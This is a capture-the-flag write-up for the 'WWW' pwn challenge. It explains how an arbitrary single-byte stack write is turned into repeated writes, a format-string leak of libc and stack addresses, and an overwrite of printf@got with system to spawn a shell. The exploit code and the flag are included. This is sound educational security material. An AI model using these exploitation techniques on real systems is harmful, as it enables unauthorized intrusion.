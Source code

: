 # WWW - Solution

Created by Yarin ([GitHub](https://github.com/CmdEngineer) / [Twitter](https://twitter.com/CmdEngineer_))\
Writeup written by moka ([Discord](https://discordapp.com/users/661109271148101652))

## Description
> challenge[pwn] = me\
`nc challenges1.hexionteam.com 3002`


## Solution
we get a binary that allows us to write any "*one*" character we want\
into the a buffer on the stack containing "Hello World!",\
using any long-long-int we choose as the index.

```c
int main(void) {  
	setvbuf(stdout, NULL, _IONBF, 0);
    int amount = 1;
    char buf[] = "Hello World!";
    while (amount--) {
        write(what(), where(), buf);
    }
    printf(buf);
}
```
it only write `amount` bytes which is set to 1,\
but since `amount` is a stack variable, we can change it
and then write anywhere we want an arbitrary amount of times!
<br>
<br>
now the first thing I'll do is create a function that'll do all that for me:

```python
def write(what, where, last=False):
	p.sendline('-7\n' + chr(len(what) + (0 if last else 1)))
	msg = b''
	for c in what:
		msg += str(where).encode() + b'\n' + bytes([c]) + b'\n'
		where += 1
	print(msg)
	p.send(msg)
```

the function changes the counter (which is buffer[-7]) to the size of the\
thing we want to write (+1 if it's not the last thing we're writing so we can redo the process).
<br>
<br>
now, to the exploit itself:
```python
# ret to ret (because stack alignment) and then to main, also leak printf@got and stack mapping
write(p64(elf.got['printf']), 0x2d + 16)  # printf got addr for leak
write(p64(main_func.address), 0x2d + 8) # RIP(2) -> ret back to main
write(p64(main_func.address + main_func.size - 1), 0x2d) # RIP(1) -> ret to ret
write(b"%10$llx %15$s\x00", 0, True) # leak stack and libc
```
we leak an address from the stack so we can calculate the offset from the buffer to printf@got\
and also the address of printf so we can find system within libc.
<br><br>
after calculating all those addresses we can overwrite printf@got with the address of system\
and then change the input buffer to "/bin/sh" which gets passed to printf (now system). 
```python
# write address of system into printf@got
write(p64(sys_addr)[:3], -offset)
write(b'/bin/sh\x00', 0, True)
p.interactive()
```
and - we have a shell.
<br><br>
Flag: `hexCTF{wh0_wh1ch_why_wh3n?}`
